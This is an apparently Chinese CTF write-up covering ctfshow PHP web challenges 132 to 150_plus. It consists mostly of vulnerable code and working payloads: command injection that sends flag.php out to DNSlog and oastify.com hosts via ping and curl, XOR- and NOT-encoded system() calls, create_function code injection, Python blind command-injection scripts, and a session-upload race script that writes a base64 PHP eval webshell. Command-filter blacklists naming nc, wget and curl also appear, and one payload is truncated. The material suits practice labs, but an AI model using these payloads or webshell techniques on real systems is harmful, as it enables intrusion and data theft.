highlight_file(__FILE__);
if(isset($_GET['username']) && isset($_GET['password']) && isset($_GET['code'])){
$username = (String)$_GET['username'];
$password = (String)$_GET['password'];
$code = (String)$_GET['code'];
if($code === mt_rand(1,0x36D) && $password === $flag || $username ==="admin"){
if($code == 'admin'){
echo $flag;
}
}
} 对于“与”（**&&） 运算： x && y 当x为false时，直接跳过，不执行y；
对于“或”（||） 运算 ： x||y 当x为true时，直接跳过，不执行y**。
所以payload：?code=admin&password=1&username=admin
web133(substr绕过 DNSlog Collaborator Client)
<?php
error_reporting(0);
highlight_file(__FILE__);
//flag.php
if($F = @$_GET['F']){
if(!preg_match('/system|nc|wget|exec|passthru|netcat/i', $F)){
eval(substr($F,0,6));
}else{
die("6个字母都还不够呀?!");
}
我们传递?F=$F;+sleep 3好像网站确实sleep了一会说明的确执行了命令
那为什么会这样？
因为是我们传递的$F;+sleep 3。先进行substr()函数截断然后去执行eval()函数
这个函数的作用是执行php代码，是shell_exec()函数的缩写，然后就去命令执行。
而$F就是我们输入的$F;+sleep 3 使用最后执行的代码应该是$F;+sleep 3,就执行成功
这里可能有点绕，慢慢理解
$F = @$_GET['F']; //?F=`$F`; sleep 3
substr($F, 0, 6); // `$F`;
eval(substr($F, 0, 6)); // eval("`$F`; "); -> eval("``$F`; sleep 3`; "); "`" 只会被展开一次
利用
$F;让eval执行shell语句。
这一串字符长度是5，加个空格，满足substr的6个字符截取，让eval执行$F;如传递
$F;+sleep 3，页面会sleep一会。具体执行过程如下：
==>php: eval(substr($F,0,6));
==>php: eval(“$F; “);
==>php: eval(“``$F; sleep 3; “);
==>shell:$F; sleep 3
所以就执行了sleep 3
方法一(DNSlog外带)：（没成功）
先得到一个域名，然后利用dnslog实现命令回显。
curl http://haha.0iix2r.dnslog.cn/`whoami`
ping `whoami`.0iix2r.dnslog.cnPayload:
当ping一个域名时会对其进行一个递归 DNS 查询的过程，这个时候就能在后端获取到 DNS 的查询请求，当命令真正被执行且平台收到回显时就能说明漏洞确实存在。
flag.php是多行，需要grep一下，其次不能含有特殊符号，所以tr设置一下返回结果只携带字母和数字。
?F=`$F`; ping `cat flag.php | grep ctfshow | tr -cd '[a-z]'/'[0-9]'`.3aqybg.dnslog.cn -c 1方法二( Collaborator Client Curl -F):
使用curl -F命令。-F 为带文件的形式发送post请求。
Payload:
?F=`$F`;+curl -X POST -F xx=@flag.php http://smiegnphdyy8keqa8wcuo4ypfgl790xp.oastify.com
web134(变量覆盖)
highlight_file(__FILE__);
$key1 = 0;
$key2 = 0;
if(isset($_GET['key1']) || isset($_GET['key2']) || isset($_POST['key1']) || isset($_POST['key2'])) {
die("nonononono");
}
@parse_str($_SERVER['QUERY_STRING']);
extract($_POST);
if($key1 == '36d' && $key2 == '36d') {
die(file_get_contents('flag.php'));
}看到parse_str和extract。变量覆盖
第一条if判断，要求key1和key2不能通过get和post传递。
parse_str是对get请求进行的内容解析成变量。例如传递?a=1，执行后就是$a=1。
那么相对的，传递_POST，就是对$_POST进行赋值，正好就可以绕过if条件对post的限制。
extract() 函数从数组中将变量导入到当前的符号表。
payload：?_POST[key1]=36d&_POST[key2]=36d
web135
error_reporting(0);
highlight_file(__FILE__);
//flag.php
if($F = @$_GET['F']){
if(!preg_match('/system|nc|wget|exec|passthru|bash|sh|netcat|curl|cat|grep|tac|more|od|sort|tail|less|base64|rev|cut|od|strings|tailf|head/i', $F)){
eval(substr($F,0,6));
}else{
die("师傅们居然破解了前面的，那就来一个加强版吧");
}
}限制了许多命令，ping可以用，读取命令nl可以用。
grep被限制了，可以用awk指定行号输出，不过需要逐行测试，在15行有flag。或者参考之前flag的格式，也可以推测出来是15。
这个题还把flag分成了两个，行号15和16，需要拼接一下。
Payload:
?F=`$F`;+ping `nl flag.php|awk 'NR==15'|tr -cd '[a-z]'/'[0-9]'`.i1k4phddlneygl58oqbjxv93full9a.oastify.com发现新解法：
?F=`$F`+;cp+flag.php+1.txtweb136(tee)
<?php
error_reporting(0);
function check($x){
if(preg_match('/\\$|\.|\!|\@|\#|\%|\^|\&|\*|\?|\{|\}|\>|\<|nc|wget|exec|bash|sh|netcat|grep|base64|rev|curl|wget|gcc|php|python|pingtouch|mv|mkdir|cp/i', $x)){
die('too young too simple sometimes naive!');
}
}
if(isset($_GET['c'])){
$c=$_GET['c'];
check($c);
exec($c);
}
else{
highlight_file(__FILE__);
}
?> tee用于显示程序的输出并将其复制到一个文件中。
Payload:
?c=ls /|tee 1
?c=cat /f149_15_h3r3|tee 1
web137(call_user_func)
error_reporting(0);
highlight_file(__FILE__);
class ctfshow
{
function __wakeup(){
die("private class");
}
static function getFlag(){
echo file_get_contents("flag.php");
}
}
call_user_func($_POST['ctfshow']); PHP call_user_func on a static method
$class = '\\MyBundleNamespace\\MyClass'; $method = 'myFunction';Both calls should work:
call_user_func("$class::$method"); call_user_func(array($class, $method));
payload: ctfshow=ctfshow::getFlag
payload: ctfshow[]=ctfshow&ctfshow[]=getFlag
web138
过滤了::但是可以用数组
web139(命令盲注)
使用tee发现没有回显，可以使用命令盲注
ls /
import requests
import time
import string
str=string.ascii_letters+string.digits+'_~'
result=""
for i in range(1,10):#行
key=0
for j in range(1,15):#列
if key==1:
break
for n in str:
#awk 'NR=={0}'逐行输出获取
#cut -c {1} 截取单个字符
payload="if [ `ls /|awk 'NR=={0}'|cut -c {1}` == {2} ];then sleep 3;fi".format(i,j,n)
#print(payload)
url="https://1ae58c7e-061c-418b-a2c8-0b4a1f452e3f.challenge.ctf.show/?c="+payload
try:
requests.get(url,timeout=(2.5,2.5))
except:
result=result+n
print(result)
break
if n=='~':
key=1
result+=" "
cat /f149_15_h3r3
import requests
import time
import string
str=string.digits+string.ascii_lowercase+"-"
result=""
key=0
for j in range(1,45):
print(j)
if key==1:
break
for n in str:
payload="if [ `cat /f149_15_h3r3|cut -c {0}` == {1} ];then sleep 3;fi".format(j,n)
#print(payload)
url="https://1ae58c7e-061c-418b-a2c8-0b4a1f452e3f.challenge.ctf.show/?c="+payload
try:
requests.get(url,timeout=(2.5,2.5))
except:
result=result+n
print(result)
break
web140(php == intval)
<?php
error_reporting(0);
highlight_file(__FILE__);
if(isset($_POST['f1']) && isset($_POST['f2'])){
$f1 = (String)$_POST['f1'];
$f2 = (String)$_POST['f2'];
if(preg_match('/^[a-z0-9]+$/', $f1)){
if(preg_match('/^[a-z0-9]+$/', $f2)){
$code = eval("return $f1($f2());");
if(intval($code) == 'ctfshow'){
echo file_get_contents("flag.php");
}
}
}
}因为是==，字符串和数字比较时，会将字符串先转化成数字类型在进行比较。
字符串以数字开头时，以开头数字（到字母出现截止）作为转换结果；开头不是数字的字符串或空（null），则转换为0。
‘12’==12 //true
‘12abc’==12 //true
‘adm2n’==0 //true
所以只需要$code的值不为1开头的字符串即可，于是构造让其返回0
intval() 成功时，返回参数的 integer 值，失败时返回 0。空的 array 返回 0，非空的 array 返回 1。
字符串有可能返回 0，取决于字符串最左侧的字符。
intval() 不能用于 object，否则会产生 E_NOTICE 错误并返回 1。
Payload:
system(system())—> f1=system&f2=system
string system( string $command[, int &$return_var] )：成功则返回命令输出的最后一行，失败则返回 FALSE 。system()必须包含参数，失败返回FLASE；system(‘FLASE’)，空指令，失败返回FLASE。
usleep(usleep())—> f1=usleep&f2=usleep
usleep没有返回值。 所以intval参数为空，失败返回0getdate(getdate())—> f1=getdate&f2=getdate
array getdate([ int $timestamp = time()] )：返回结果是array，参数必须是int型。所以getdate(getdate())—->getdate(array型)—>失败返回flase，intval为0。
web141(函数与数字运算)
<?php
highlight_file(__FILE__);
if(isset($_GET['v1']) && isset($_GET['v2']) && isset($_GET['v3'])){
$v1 = (String)$_GET['v1'];
$v2 = (String)$_GET['v2'];
$v3 = (String)$_GET['v3'];
if(is_numeric($v1) && is_numeric($v2)){
if(preg_match('/^\W+$/', $v3)){
$code = eval("return $v1$v3$v2;");
echo "$v1$v3$v2 = ".$code;
}
}
}\W：与任何非单词字符匹配。就是除了数字、字母、下划线。等价于[^A-Za-z0-9_]
php里数字可以和命令可以进行运算。也就是说v3里要执行的函数前后加上运算符即可。
举例理解一下：1-phpinfo()-1的结果为0，phpinfo()执行成功返回true，1-1-1=-1。
同理system()也可执行。
取反~异或^或|都可以
<?php
echo urlencode(~'system');
echo '<br/>';
echo urlencode(~'cat flag.php');
?>Payload:
?v1=1&v2=0&v3=%2b(“%13%19%13%14%05%0d”|”%60%60%60%60%60%60”)(“%03%01%14%00%06%0c%01%07%00%10%08%10”|”%60%60%60%20%60%60%60%60%2e%60%60%60”)%2b
%2b=+
?v1=0&v2=0&v3=-(
‘%8C%86%8C%8B%9A%92’)(‘%9C%9E%8B%DF%99%93%9E%98%D1%8F%97%8F’)-
web142
if(isset($_GET['v1'])){
$v1 = (String)$_GET['v1'];
if(is_numeric($v1)){
$d = (int)($v1 * 0x36d * 0x36d * 0x36d * 0x36d * 0x36d);
sleep($d);
echo file_get_contents("flag.php");
}
} 0和0x0绕过 这里绕过因为是因为当成了8进制和16进制
web143
highlight_file(__FILE__);
if(isset($_GET['v1']) && isset($_GET['v2']) && isset($_GET['v3'])){
$v1 = (String)$_GET['v1'];
$v2 = (String)$_GET['v2'];
$v3 = (String)$_GET['v3'];
if(is_numeric($v1) && is_numeric($v2)){
if(preg_match('/[a-z]|[0-9]|\+|\-|\.|\_|\||\$|\{|\}|\~|\%|\&|\;/i', $v3)){
die('get out hacker!');
}
else{
$code = eval("return $v1$v3$v2;");
echo "$v1$v3$v2 = ".$code;
}
}
}同142，ban了取反和或同时也ban了+-可以使用*，好像没ban异或^
Payload:?v1=1&v2=1&v3=*("%0c%06%0c%0b%05%0d"^"%7f%7f%7f%7f%60%60")("%0b%01%03%00%06%0c%01%07%01%0f%08%0f"^"%7f%60%60%20%60%60%60%60%2f%7f%60%7f")*
web144
if(isset($_GET['v1']) && isset($_GET['v2']) && isset($_GET['v3'])){
$v1 = (String)$_GET['v1'];
$v2 = (String)$_GET['v2'];
$v3 = (String)$_GET['v3'];
if(is_numeric($v1) && check($v3)){
if(preg_match('/^\W+$/', $v2)){
$code = eval("return $v1$v3$v2;");
echo "$v1$v3$v2 = ".$code;
}
}
}
function check($str){
return strlen($str)===1?true:false;
}限制了v3的长度，并对v2进行check,可以使用|``^只是调换位置罢了
Payload:?v1=1&v2=("%13%19%13%14%05%0d"|"%60%60%60%60%60%60")("%14%01%03%00%06%0c%01%07%00%10%08%10"|"%60%60%60%20%60%60%60%60%2e%60%60%60")&v3=-
web145
highlight_file(__FILE__);
if(isset($_GET['v1']) && isset($_GET['v2']) && isset($_GET['v3'])){
$v1 = (String)$_GET['v1'];
$v2 = (String)$_GET['v2'];
$v3 = (String)$_GET['v3'];
if(is_numeric($v1) && is_numeric($v2)){
if(preg_match('/[a-z]|[0-9]|\@|\!|\+|\-|\.|\_|\$|\}|\%|\&|\;|\<|\>|\*|\/|\^|\#|\"/i', $v3)){
die('get out hacker!');
}
else{
$code = eval("return $v1$v3$v2;");
echo "$v1$v3$v2 = ".$code;
}
}
}正则运算都被ban了，可以使用|和~或者三目运算符，另外"也被ban了，可以使用'
Payload:
?v1=0&v2=0&v3=|(‘%13%19%13%14%05%0d’|’%60%60%60%60%60%60’)(‘%14%01%03%00%06%0c%01%07%02%10%08%10’|’%60%60%60%20%60%60%60%60%2c%60%60%60’)|
?v1=%0a1&v2=%0a0&v3=?(
%8c%86%8c%8b%9a%92)(%9c%9e%8b%df%99%d5):
web146
三目运算符被ban了，但是影响不大
web147(PHP命名空间 create_function函数代码注入)
highlight_file(__FILE__);
if(isset($_POST['ctf'])){
$ctfshow = $_POST['ctf'];
if(!preg_match('/^[a-z0-9_]*$/isD',$ctfshow)) {
$ctfshow('',$_GET['show']);
}
}正则匹配绕过，只要ctfshow里有一个不是数字、小写字母和下划线就能绕过。
/i：大小写不敏感匹配
/s：点号元字符匹配所有字符，包含换行符。
/D：元字符美元符号仅仅匹配目标字符串的末尾
php里默认命名空间是\，所有原生函数和类都在这个命名空间中。 调用一个函数时直接写函数名function_name()，相当于是相对路径调用； 如写某一全局函数的完全限定名称\function_name()调用，则是写了一个绝对路径。

（详情可以看php手册里的命名空间部分）
所以post时ctf可以通过加上\绕过匹配。%5c
找个不需要第一个参数的函数。可以用create_function匿名函数。虽然该函数自PHP 7.2起已经弃用，但是还是可以eval执行函数，只是需要把匿名部分闭合。
get：?show=}system('tac f*');/* post：ctf=%5ccreate_function 
可以这么理解：create_function创建一个匿名函数，我们假设就叫niming。 string create_function( string $args, string $code)那么具体就是如下面所示的样子：
function niming($args,...){
$code
}所以就需要}闭合，闭合之后，那就多出来一个}，这就需要用注释符注释掉。
web148(中文变量 异或)
include 'flag.php';
if(isset($_GET['code'])){
$code=$_GET['code'];
if(preg_match("/[A-Za-z0-9_\%\\|\~\'\,\.\:\@\&\*\+\- ]+/",$code)){
die("error");
}
@eval($code);
}
else{
highlight_file(__FILE__);
}
function get_ctfshow_fl0g(){
echo file_get_contents("flag.php");
}没ban异或
Payload：?code=("%08%02%08%09%05%0d"^"%7b%7b%7b%7d%60%60")("%09%01%03%01%06%0c%01%07%01%0b%08%0b"^"%7d%60%60%21%60%60%60%60%2f%7b%60%7b");
预期解是使用中文 ?code=$哈="{{{"^"?<>/";${$哈}[哼](${$哈}[嗯]);&哼=system&嗯=tac f*
"{{{"^"?<>/"; 异或出来的结果是 _GET
web149(unlink 文件覆盖)
error_reporting(0);
highlight_file(__FILE__);
$files = scandir('./');
foreach($files as $file) {
if(is_file($file)){
if ($file !== "index.php") {
unlink($file);
}
}
}
file_put_contents($_GET['ctf'], $_POST['show']); unlink() 函数删除文件。
若成功，则返回 true，失败则返回 false。
直接向index.php写马就行
Payload
GET:?ctf=indx.php
POST:show=
web150
<?php
include("flag.php");
error_reporting(0);
highlight_file(__FILE__);
class CTFSHOW{
private $username;
private $password;
private $vip;
private $secret;
function __construct(){
$this->vip = 0;
$this->secret = $flag;
}
function __destruct(){
echo $this->secret;
}
public function isVIP(){
return $this->vip?TRUE:FALSE;
}
}
function __autoload($class){
if(isset($class)){
$class();
}
}
#过滤字符
$key = $_SERVER['QUERY_STRING'];
if(preg_match('/\_| |\[|\]|\?/', $key)){
die("error");
}
$ctf = $_POST['ctf'];
extract($_GET);
if(class_exists($__CTFSHOW__)){
echo "class is exists!";
}
if($isVIP && strrpos($ctf, ":")===FALSE){
include($ctf);
} isVIP可以通过extract进行变量覆盖，ctf被限制不能有:
可以利用nginx日志文件写马

web150_plus(__autoload class_exists)
过滤了log，看着可以用条件竞争
看了hint 利用 __autoload()
于是查了一下 class_exists() 这个函数

修复了非预期，不让包含日志文件了。
这里利用了 extract 覆盖变量会把 空格 [ . 都给转成下划线的特性，绕过正则过滤。然后就是 class_exists 第二个参数默认为 true，在类不存在时会调用 __autoload 函数，__autoload 这里写的是调用要加载的类名的函数，传 phpinfo 就能得到 session相关信息，从而包含 session。
payload1: ?..CTFSHOW..=phpinfo
可以看到 session.use_strict_mode 为 Off，说明可以自定义 session_id，控制 session 文件名， session.save_path 为空，确定文件包含路径 /tmp/sess_{session_id}。改一下祖传脚本写 shell。
import io
import requests
import threading
url = 'http://fa7db7de-329e-44cf-8270-bcd8d7f96368.challenge.ctf.show:8080/?isVIP=1'
event = threading.Event()
def write(session):
data = {
'PHP_SESSION_UPLOAD_PROGRESS': 'aaaaaa<?php file_put_contents("/var/www/html/s.php", base64_decode("PD9waHAgZXZhbCgkX1BPU1RbMV0pOyA/Pg=="));?>'
}
while True:
if event.is_set():
return
f = io.BytesIO(b'a' * 1024 * 10)
_ = session.post(url,cookies={'PHPSESSID': 'down'}, data=data, files={'file': ('verysafe.txt', f)})
def read(session):
while True:
if event.is_set():
return
response = session.post(url, data={"ctf": "/tmp/sess_down"})
if 'aaaaaa' in response.text:
print(response.text)
event.set()
else:
print('retry')
if __name__ == '__main__':
session = requests.session()
for i in range(30):
threading.Thread(target=write, args=(session,)).start()
for i in range(30):
threading.Thread(target=read, args=(session,)).start()
event.wait()
[PHP文件包含漏洞（利用phpinfo）](vulhub/php/inclusion/README.zh-cn.md at master · vulhub/vulhub (github.com))
这篇详细讲解了漏洞的利用，之前的条件竞争就是这样